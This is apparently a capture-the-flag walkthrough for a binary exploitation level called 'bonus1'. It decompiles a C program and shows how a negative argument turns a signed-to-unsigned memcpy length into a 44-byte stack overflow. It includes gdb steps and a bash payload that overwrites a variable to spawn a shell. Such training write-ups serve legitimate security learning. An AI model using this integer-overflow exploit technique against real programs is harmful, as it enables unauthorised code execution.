 # Walkthrough

## Reversing

```c
int main(int argc,char **argv)
{
  int ret;
  char buff [40];
  int num;

  num = atoi(argv[1]);
  if (num < 10) {
    memcpy(buff,argv[2],num * 4);
    if (num == 1464814662) {
      execl("/bin/sh","sh",0);
    }
    ret = 0;
  }
  else {
    ret = 1;
  }
  return ret;
}
```

This seems fun, we have a pretty simple condition, `local_14 == 1464814662`,
but, `local_14` must be less than `10` at the same time... And the only thing
separing this two conditions is a `memcpy`... Which can clearly overflow.

## Exploit

We need tu use that `memcpy` to overwrite the value of `local_14` somehow.

Looking at the local variables we see that `local_14` is above `local_3c`, so,
if we overflow `local_3c`... We could overwrite `local_14` to `1464814662`:
```raw
                **************************************************************
                *                          FUNCTION                          *
                **************************************************************
                int __cdecl main(int argc, char * * argv)
int               EAX:4          <RETURN>                                XREF[1]:     08048448(W)  
int               Stack[0x4]:4   argc
char * *          Stack[0x8]:4   argv                                    XREF[2]:     0804842d(R), 
                                                                                      0804845a(R)  
undefined4        EAX:4          ret                                     XREF[1]:     08048448(W)  
undefined4        Stack[-0x14]:4 num                                     XREF[4]:     0804843d(W), 
                                                                                      08048441(R), 
                                                                                      0804844f(R), 
                                                                                      08048478(R)  
undefined1[40]    Stack[-0x3c]   buff                                    XREF[1]:     08048464(*)  
undefined4        Stack[-0x48]:4 local_48                                XREF[2]:     08048468(W), 
                                                                                      08048482(W)  
undefined4        Stack[-0x4c]:4 local_4c                                XREF[2]:     0804846c(W), 
                                                                                      0804848a(W)  
undefined4        Stack[-0x50]:4 local_50                                XREF[3]:     08048435(*), 
                                                                                      08048470(*), 
                                                                                      08048492(*)  
```

So, `num` must be less than `10`, but, in that case, tha max value could be `9`,
so in the `memcpy` we will copy `9 * 4 = 36` characters, not enought to overflow
`buff`, which has a size of `40`.

The key point here is that the third argument of `memcpy` is unsigned, while
`num` is signed, so, we can pass a negative number as argument, and it will
pass the first condition (`-4 < 10 == true`), and, in the memcpy, the negative
number will be treated as unsigned, so `-4 * 4` would be
`18446744073709551600 (in x64)`. But, that copying that much data will sooner
or later read a invalid memory region and throw a segfault.

We need to find a negative number that when multiplied by `4` and treated as
unsigned, results in `44`, why `44`? Because the payload will be like this:
- 40 bytes offset (to overflow `buff`).
- 4 bytes of the number that will overwrite `num`.

Small negative numbers results in big unsigned numbers, so big negatives
numbers will result in small unsigned numbers.

Let's calculate the max value of a signed in x32 using `bc`
```bash
2^31
2147483648
quit
```

Now let's do some trial and error with a custom program I wrote:
```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	int num = atoi(argv[1]);
	printf("%zu\n", (size_t)(num * 4));
	return 0;
}
```

We start from the biggest negative and keep decreasing until we find the one
that results in `44`:
```bash
$ ./a.out -2147483648
0

[0] ~/tmp
$ ./a.out -2147483647
4

$ ./a.out -2147483637
44
```

So, our `argv[1]` will be: `-2147483637`.

Let's take the address of `num` so we can check its value, we know we use it
in the `if` to compare, so place a breakpoint there, and print the $esp, then
do the arithmetic:
```bash
=> 0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46

(gdb) p/x $esp
$1 = 0xbffff640

# So:
# 0xbffff640 + 0x3c = 0xbffff67c
```

So now we can forge a silly payload and check the value of the number
(just for fun):
```bash
(gdb) set args -2147483637 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

(gdb) p/d *0xbffff67c
$2 = 1648440162
```

Now let's forge the real payload, it will be something like:
- 40 bytes offset (for `buff`).
- 4 bytes of the number.

The number we need is `1464814662` (`0x574f4c46` in hex), so, the payload will
be:
```bash
offset=$(printf "%40s" " " | tr ' ' 'A')
address='574f4c46'
address=$(printf \\x${address:6:2}\\x${address:4:2}\\x${address:2:2}\\x${address:0:2})
payload="${offset}${address}"

./bonus1 "-2147483637" "${payload}"
```

And that's all! Another flag!

Check the script at `./resources/exploit.sh`.
